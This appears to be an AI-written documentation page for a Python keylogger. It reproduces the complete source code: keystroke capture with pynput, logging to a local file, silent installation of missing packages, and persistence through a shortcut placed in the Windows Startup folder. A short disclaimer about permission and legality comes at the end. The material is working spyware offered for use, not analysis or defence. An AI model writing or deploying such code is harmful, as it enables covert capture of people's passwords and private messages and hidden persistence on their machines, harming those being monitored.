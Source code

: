 
Here's a documentation for your Python keylogger code. It includes an overview, installation instructions, usage guidelines, and explanations of the code components.

Python Keylogger Documentation
Overview
This Python keylogger captures keystrokes and logs them into a file. It is designed to run in the background and can automatically start with the operating system. The captured keystrokes are saved in a file named key_log.log.

Prerequisites
Before running the keylogger, ensure you have the following libraries installed:

pynput: For capturing keyboard events.
plyer: For displaying notifications (if desired).
pywin32: For creating Windows shortcuts.
If these libraries are not installed, the keylogger will attempt to install them automatically.

Installation
Ensure Python is installed on your system.
Download the script and save it as keylogger.py.
Run the script using Python:
bash
Copy code
python keylogger.py
The script will check for required packages and install any that are missing.

Usage
Once the script is running, it will capture all keyboard inputs until the "Escape" key is pressed. The logged keystrokes will be saved in key_log.log in the same directory as the script.

Automatic Startup
The keylogger creates a shortcut in the Windows Startup folder, ensuring it runs automatically whenever the user logs into Windows.

Code Explanation
Imports and Package Installation
python
Copy code
import subprocess
import sys
import os
import win32com.client  

def install(package):
    subprocess.check_call([sys.executable, "-m", "pip", "install", package])
subprocess: Used for executing system commands.
sys: Provides access to system-specific parameters and functions.
os: Used for interacting with the operating system.
win32com.client: Used for creating Windows shortcuts.
Library Import and Installation
python
Copy code
try:
    from pynput.keyboard import Key, Listener
    from plyer import notification
except ImportError:
    list1 = ['tkinter', 'pynput', 'plyer', 'pywin32']
    for i in list1:
        install(i)
This section attempts to import necessary libraries. If any library is missing, it installs them.

Logging Mechanism
python
Copy code
log_file = "key_log.log"
log_content = ""

def on_press(key):
    global log_content
    try:
        if key.char: 
            log_content += key.char  
    except AttributeError:
        if key == Key.backspace:
            log_content = log_content[:-1] 
        else:
            log_content += f" {key} "

    with open(log_file, "w") as f: 
        f.write(log_content)
log_file: Specifies the name of the log file.
log_content: A string that holds the recorded keystrokes.
on_press: A callback function triggered when a key is pressed. It appends the pressed key to log_content and writes it to log_file.
Key Release Handling
python
Copy code
def on_release(key):
    if key == Key.esc:
        return False
on_release: A callback function triggered when a key is released. If the "Escape" key is pressed, it stops the listener.
Creating a Startup Shortcut
python
Copy code
def create_startup_shortcut():
    keylogger_path = os.path.join(os.path.dirname(sys.executable), "dist", "keylogger.exe")

    startup_folder = os.path.join(os.getenv("APPDATA"), "Microsoft", "Windows", "Start Menu", "Programs", "Startup")

    shell = win32com.client.Dispatch("WScript.Shell")
    shortcut = shell.CreateShortCut(os.path.join(startup_folder, "Keylogger.lnk"))
    shortcut.TargetPath = keylogger_path
    shortcut.WorkingDirectory = os.path.dirname(keylogger_path)
    shortcut.save()

create_startup_shortcut()
create_startup_shortcut: Creates a Windows shortcut to ensure the keylogger runs at startup.
Main Listener
python
Copy code
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
Listener: A context manager that listens for keyboard events. It calls on_press and on_release as keys are pressed and released, respectively.
Important Notes
Ensure that you have permission to run a keylogger on the system.
Misuse of this software can lead to legal consequences. Use it responsibly and ethically.

